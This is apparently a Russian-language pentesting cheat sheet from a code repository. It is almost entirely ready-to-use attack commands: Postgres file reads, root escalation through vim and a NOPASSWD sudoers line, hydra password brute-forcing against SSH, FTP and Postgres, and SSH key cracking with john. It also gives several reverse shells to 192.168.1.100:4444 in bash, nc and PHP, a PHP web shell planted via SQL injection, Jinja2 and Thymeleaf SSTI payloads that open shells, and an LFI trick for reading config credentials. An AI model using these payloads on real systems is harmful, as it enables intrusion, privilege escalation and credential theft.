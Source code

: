 **Полезные штучки**

https://www.hackingarticles.in/red-teaming/

**Postgres:**

Чтение каталогов через:
```
SELECT pg_ls_dir('/home');
```
Чтение файлов:
```
SELECT pg_read_file('/home/file');
```
**Доступные команды sudo: sudo -l**
**vim с правами root:**
```
/usr/bin/vim -c ":!/bin/bash"
/usr/bin/vim /etc/sudoers
  <твое_имя_пользователя> ALL=(ALL:ALL) NOPASSWD: ALL
```
**Перебор паролей ssh:**
```
hydra -l user -P password.txt ssh://IP
```
**Атака по открытому ключю:**
```
john --worldlist=password.txt --format=SSH id_rsa
```
**Перебор паролей FTP:***
```
hydra -l admin -P password.txt ftp://IP -t 1 -w 10
t - одно соединение за раз
w - задержка в 10 секунд
```
**Перебор паролей postgres:**
```
hydra -l postgres -P password.txt -V IP postgres
```
**Reverse shell:**
Если есть RCE:
```
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1 - на цели
nc -lvnp 4444
```
ИЛИ:
```
nc -e /bin/sh 192.168.1.100 4444
```
ИЛИ:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.100 4444 > /tmp/f
```
**Если можем загружать файл и открыать его:**
Создаем .php:
```
<?php
$sock=fsockopen("192.168.1.100",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
**Если есть SQLi Postgres:**
```
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
curl http://target.com/shell.php?cmd=whoami
```
**Если есть SSTI на Jinja2:**
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc -e /bin/sh 192.168.1.100 4444').read()
```
**Если есть SSTI на Thymeleaf:**
```
${T(java.lang.Runtime).getRuntime().exec("nc -e /bin/sh 192.168.1.100 4444")}
```
**Через LFI:**
```
http://target.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
Декодируем данные, находим креды, используем их в дальнейшем
